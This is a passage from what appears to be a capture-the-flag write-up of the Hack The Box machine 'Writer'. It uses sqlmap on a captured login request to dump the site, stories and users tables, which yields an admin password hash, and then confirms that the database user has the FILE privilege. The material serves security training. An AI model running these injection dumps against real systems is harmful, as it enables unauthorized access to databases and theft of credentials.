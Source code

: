 Show the data in each table:

```

oxdf@parrot$ sqlmap -r login.req -D writer -T site --dump
...[snip]...
Database: writer
Table: site
[1 entry]
+------+---------------+------------+------------------+------------+----------------------------------------------------------+
| id   | logo          | title      | favicon          | ganalytics | description                                              |
+------+---------------+------------+------------------+------------+----------------------------------------------------------+
| 1    | /img/logo.png | Story Bank | /img/favicon.ico | <blank>    | This is a site where I publish my own and others stories |
+------+---------------+------------+------------------+------------+----------------------------------------------------------+
...[snip]...
oxdf@parrot$ sqlmap -r login.req -D writer -T stories --dump
...[snip]...
oxdf@parrot$ sqlmap -r login.req -D writer -T users --dump
...[snip]...
Database: writer
Table: users
[1 entry]
+------+------------------+--------+----------+----------------------------------+--------------+
| id   | email            | status | username | password                         | date_created |
+------+------------------+--------+----------+----------------------------------+--------------+
| 1    | admin@writer.htb | Active | admin    | 118e48794631a9612484ca8b55f622d0 | NULL         |
+------+------------------+--------+----------+----------------------------------+--------------+
...[snip]...

```

I didn’t show the output for `stories`, as it was a lot, but it matched up with the stories on the main site.

That hash doesn’t crack against any wordlists I tried.

#### Privileges

The `--privileges` flag in `sqlmap` will show that the current user can read files:

```

oxdf@parrot$ sqlmap -r login.req --privileges
...[snip]...
database management system users privileges:
[*] 'admin'@'localhost' [1]:
    privilege: FILE
...[snip]...

```
